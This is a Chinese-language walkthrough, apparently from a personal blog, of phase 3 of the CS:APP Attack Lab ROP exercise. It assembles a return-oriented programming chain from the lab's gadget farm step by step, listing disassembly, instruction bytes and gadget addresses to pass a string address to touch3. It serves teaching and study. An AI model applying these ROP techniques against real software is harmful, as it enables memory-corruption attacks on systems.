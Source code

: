 在这一阶段中，我们需要做的就是把字符串的起始地址，传送到`%rdi`,然后调用`touch3`函数。

因为每次栈的位置是随机的，所以无法直接用地址来索引字符串的起始地址，只能用栈顶地址 + 偏移量来索引字符串的起始地址。从`farm`中我们可以获取到这样一个`gadget`，`lea (%rdi,%rsi,1),%rax`，这样就可以把字符串的首地址传送到`%rax`。

解题思路：

（1）首先获取到`%rsp`的地址，并且传送到`%rdi`
（2）其二获取到字符串的偏移量值，并且传送到`%rsi`
（3）`lea (%rdi,%rsi,1),%rax`, 将字符串的首地址传送到`%rax`, 再传送到`%rdi`
（4）调用`touch3`函数

(1) 第一步，获取到`%rsp`的地址



```xml
0000000000401a03 <addval_190>:
  401a03: 8d 87 41 48 89 e0     lea    -0x1f76b7bf(%rdi),%eax
  401a09: c3  
movq %rsp, %rax`的指令字节为：`48 89 e0`, 所以这一步的`gadget`地址为：`0x401a06
```

(2) 第二步，将`%rax`的内容传送到`%rdi`



```xml
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3
movq %rax, %rdi`的指令字节为：`48 89 c7`，所以这一步的`gadget`地址为：`0x4019a2
```

(3) 第三步，将偏移量的内容弹出到`%rax`



```bash
00000000004019ca <getval_280>:
  4019ca: b8 29 58 90 c3        mov    $0xc3905829,%eax
  4019cf: c3   
popq %rax`的指令字节为：`58`， 其中`90`为`nop`指令, 所以这一步的`gadget`地址为：`0x4019cc
```

(4) 第四步，将`%eax`的内容传送到`%edx`



```bash
00000000004019db <getval_481>:
  4019db: b8 5c 89 c2 90        mov    $0x90c2895c,%eax
  4019e0: c3    
movl %eax, %edx`的指令字节为:`89 c2`, 所以这一步的`gadget`地址为：`0x4019dd
```

(5) 第五步，将`%edx`的内容传送到`%ecx`



```bash
0000000000401a6e <setval_167>:
  401a6e: c7 07 89 d1 91 c3     movl   $0xc391d189,(%rdi)
  401a74: c3  
movl %edx, %ecx`的指令字节为：`89 d1`，所以这一步的`gadget`地址为：`0x401a70
```

(6) 第六步，将`%ecx`的内容传送到`%esi`



```xml
0000000000401a11 <addval_436>:
  401a11: 8d 87 89 ce 90 90     lea    -0x6f6f3177(%rdi),%eax
  401a17: c3                    retq 
movl %ecx, %esi`的指令字节为：`89 ce`, 所以这一步`gadget`地址为：`0x401a13
```

(7) 第七步，将栈顶 + 偏移量得到字符串的首地址传送到`%rax`



```xml
00000000004019d6 <add_xy>:
  4019d6: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  4019da: c3                    retq 
```

这一步的`gadget`地址为：`0x4019d6`

(8) 将字符串首地址`%rax`传送到`%rdi`



```xml
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3
movq %rax, %rdi`的指令字节为：`48 89 c7`，所以这一步的`gadget`地址为：`0x4019a2
```

![](https://raw.githubusercontent.com/liuyunhaozz/image/main/img/V%24E0E%7E_0CXC%40G%7E_R6DGM%7DU4.jpg)
